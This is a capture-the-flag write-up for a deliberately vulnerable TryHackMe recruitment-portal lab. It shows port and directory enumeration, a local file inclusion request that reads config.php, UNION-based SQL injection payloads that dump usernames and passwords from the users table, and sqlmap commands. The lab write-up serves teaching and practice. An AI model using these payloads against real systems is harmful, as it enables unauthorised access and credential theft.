# Recruit Write-up

**Platform**: TryHackMe <br>
**Room**: Recruit (https://tryhackme.com/room/recruitwebchallenge) <br>
**Category**: Web Application <br>
**Target**: Linux <br>
**Techniques**: LFI, Information Disclosure, SQL Injection <br>
**Final Goal**: Administrator Access

## Overview

Recruit simulates a recruitment portal used by an organisation's Human Resources department to manage candidate applications. The objective is to assess the security of the web application, identify exposed functionality, exploit discovered vulnerabilities, and ultimately gain administrator access.

The room demonstrates a realistic web application attack chain involving:

- Service and web application enumeration
- Information disclosure
- Local File Inclusion (LFI)
- Credential disclosure
- SQL Injection
- Manual database enumeration
- Automated exploitation using SQLMap

### Attack Chain



---

## Initial Enumeration

The assessment begins by identifying the services exposed by the target host.

```bash
nmap -sV -sC -p- 10.113.135.13
```

Where:

- `-sV` performs service version detection.
- `-sC` executes Nmap's default NSE scripts.
- `-p-` scans all TCP ports rather than the default top 1,000.

The scan reveals three externally accessible services.



| Port | Service | Observation |
|------|---------|-------------|
| 22 | SSH | Potential management interface that may become useful if valid credentials are obtained. |
| 53 | DNS | Indicates the host provides DNS services, although no immediate attack vector is identified. |
| 80 | HTTP | Public-facing recruitment portal and primary attack surface. |

Since the objective is to assess the security of the recruitment portal, the assessment continues with web application enumeration.

## Web Application Enumeration

With the attack surface narrowed to the HTTP service, the next objective is to identify hidden resources that are not directly linked from the application's interface.

Directory enumeration is performed using Gobuster:

```bash
gobuster dir -u "http://10.113.135.13" \
-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
-r \
-x .php,.js,.html,.py,php.bak
```

The scan identifies several interesting endpoints.



Among the discovered resources are:

- `/mail`
- `/file.php`
- `/api.php`
- `/config.php`
- `/dashboard.php`

These endpoints suggest that the application exposes functionality related to candidate management, file retrieval and configuration. Each endpoint is examined individually to determine whether it discloses sensitive information or exposes unintended functionality.

---

## Information Disclosure

Browsing to the `/mail` directory reveals a publicly accessible log file.

```
http://10.113.135.13/mail/
```



Reviewing the contents of `mail.log` exposes information intended for internal use.



The log discloses two important pieces of information:

- the Human Resources account uses the username **`hr`**;
- the corresponding password is stored in `config.php`.

Additionally, the log states that administrator credentials are stored in the backend database rather than in configuration files. This suggests that obtaining administrative access will likely require interacting with the application's database at a later stage.

---

## Local File Inclusion

Directly requesting `config.php` returns a blank page.

```
http://10.113.135.13/config.php
```

Since PHP files are executed by the web server rather than returned as plain text, an alternative method is required to read the file contents.

Returning to the application's landing page reveals a link to the API documentation.



The documentation redirects to the endpoint discovered during directory enumeration.

```
http://10.113.135.13/api.php
```



The documentation describes the `file.php` endpoint, which retrieves candidate CVs using the `cv` parameter.

```
/file.php?cv=<URL>
```

Because the endpoint accepts a user-supplied file path, it becomes a candidate for Local File Inclusion (LFI) testing.

An initial request attempts to retrieve the configuration file directly:

```
http://10.113.135.13/file.php?cv=config.php
```

The application responds by indicating that only local files are accepted.



This response suggests that the endpoint expects the `file://` wrapper. Supplying the configuration file using this scheme successfully discloses its contents.

```
http://10.113.135.13/file.php?cv=file://config.php
```



The configuration file reveals the password associated with the **`hr`** account, providing valid credentials for the application's Human Resources user.

## Initial Access

The credentials recovered from `config.php` can now be used to authenticate to the recruitment portal.

Returning to the application's login page and signing in as the **`hr`** user grants access to the Human Resources dashboard.



Successful authentication confirms that the credentials disclosed through the Local File Inclusion vulnerability are valid. In addition to revealing the HR flag, the dashboard exposes functionality for viewing candidate records, including a search feature.

The search functionality accepts user-controlled input and interacts with the backend database, making it a suitable candidate for SQL Injection testing.

---

## SQL Injection

A common initial test for SQL Injection is to submit a single quotation mark (`'`) and observe the application's response.

Submitting this payload to the search field causes the application to return a database error.



The error message indicates that the input is incorporated directly into an SQL query without proper sanitisation:

```text
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '%'' at line 1
```

This behaviour confirms that the search parameter is vulnerable to SQL Injection.

At this point, the vulnerability can be exploited in two ways:

- **Manual exploitation**, by enumerating the database using UNION-based SQL Injection.
- **Automated exploitation**, by capturing the request with Burp Suite and using SQLMap.

Both approaches ultimately recover the administrator's credentials. The following sections demonstrate each method.

## Manual SQL Injection

The first step in a UNION-based SQL Injection attack is to determine the number of columns returned by the original query.

An initial attempt using a single column fails:

```sql
' UNION SELECT 1 -- -
```



The number of selected columns is incremented until the query executes successfully. A payload containing four columns returns a valid response, indicating that the underlying query also returns four columns.



Since the values `1`, `2`, `3` and `4` are reflected in the application's table, each column is suitable for displaying query results.

---

### Identifying the Database

With the number of columns established, the next step is to determine the name of the current database.

```sql
' UNION SELECT 1,2,database(),4 -- -
```

The application returns the database name:

```text
recruit_db
```

The following example demonstrates that the result can be displayed in any of the four visible columns.



---

### Enumerating Tables

Knowing the database name allows the tables within it to be enumerated through the `information_schema` database.

```sql
' UNION SELECT 1,2,group_concat(table_name),4
FROM information_schema.tables
WHERE table_schema='recruit_db' -- -
```

The query reveals two tables:

- `candidates`
- `users`



Since authentication data is typically stored in a users table, the assessment continues by enumerating its columns.

---

### Enumerating Columns

The column names of the `users` table can be retrieved using:

```sql
' UNION SELECT 1,2,group_concat(column_name),4
FROM information_schema.columns
WHERE table_name='users' -- -
```

Among the returned columns are:

- `username`
- `password`



These columns contain the information required to recover user credentials.

---

### Extracting Credentials

Finally, the contents of the `users` table are retrieved.

```sql
' UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>'),4
FROM users -- -
```

The query returns the usernames together with their corresponding passwords, including the administrator account.



After signing out of the HR account, authenticate using the recovered administrator credentials.

Successful authentication grants access to the administrator dashboard and reveals the final flag.



## Automated SQL Injection with SQLMap

While manual exploitation provides a deeper understanding of the vulnerability, SQLMap can automate the enumeration process once the vulnerable request has been identified.

To capture the request, configure **FoxyProxy** to route browser traffic through Burp Suite using the following proxy settings:

- **Hostname:** `127.0.0.1`
- **Port:** `8080`



In Burp Suite, navigate to **Proxy** and ensure that request interception is enabled.



Return to the recruitment portal while authenticated as the **`hr`** user. With FoxyProxy enabled, submit any search through the candidate search functionality. Burp Suite intercepts the HTTP request before it reaches the server.



Copy the intercepted request and save it locally.

```bash
nano req.txt
```

Paste the captured request into the file and save it.



---

### Enumerating Databases

Run SQLMap against the captured request, specifying the vulnerable parameter and requesting the available databases.

```bash
sqlmap -r req.txt -p search --dbs
```

SQLMap identifies several databases, including the application's database, `recruit_db`.



---

### Enumerating Tables

Next, enumerate the tables within `recruit_db`.

```bash
sqlmap -r req.txt -p search -D recruit_db --tables
```

The tool identifies two tables:

- `candidates`
- `users`

